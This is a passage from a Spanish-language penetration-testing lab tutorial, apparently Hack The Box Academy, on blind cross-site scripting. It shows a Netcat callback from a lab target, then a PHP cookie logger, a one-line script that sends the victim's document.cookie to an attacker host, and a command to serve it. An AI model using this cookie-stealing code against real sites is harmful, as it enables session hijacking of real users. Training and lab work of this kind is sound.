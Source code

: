 Cambia la IP por la tuya y empieza un listener `Netcat` en el puerto 9000 (o el puerto que desees). Haz clic en el botón `Send` y verifica tu listener para una devolución de llamada que confirme la vulnerabilidad.



```r
nc -lvnp 9000

listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.101] 56202
GET /TESTING_THIS%3C/script HTTP/1.1
Host: 10.10.14.15:9000
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Este es un ejemplo de un ataque de Blind Cross-Site Scripting (XSS). Podemos revisar métodos para la detección de XSS ciego en el módulo [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/103/section/1008).

Ahora necesitamos averiguar cómo podemos robar la cookie de un administrador para que podamos iniciar sesión y ver qué tipo de acceso podemos obtener. Podemos hacer esto creando los siguientes dos archivos:

1. index.php


```r
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

2. script.js


```r
new Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie
```

A continuación, inicia un servidor web PHP en tu host de ataque como sigue:



```r
sudo php -S 0.0.0.0:9200
```
